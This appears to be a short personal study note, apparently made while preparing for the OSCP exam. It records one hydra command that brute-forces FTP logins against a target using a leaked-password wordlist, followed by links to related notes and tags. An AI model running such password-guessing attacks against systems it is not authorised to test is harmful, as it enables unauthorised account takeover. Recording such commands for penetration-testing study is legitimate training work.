 # hydra bruteforce ftp rockyou 50
```bash
hydra -L users -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt -e nsr $IP ftp
```

` zet/20221003150820/README.md `

# Related

- [20221003151179](/zet/20221003151179/README.md) FTP

- [20221014185846](/zet/20221014185846/README.md) kb file named kb/hacking/commands/hydra-ftp-command.md
- [20221009005402](/zet/20221009005402/README.md) preparing for the OSCP exam
- [20221003150822](/zet/20221003150822/README.md) hydra bruteforce ftp
- ~/kb/hacking/commands/hydra-ftp-command.md

Tags:

    #command #hacking #hydra 
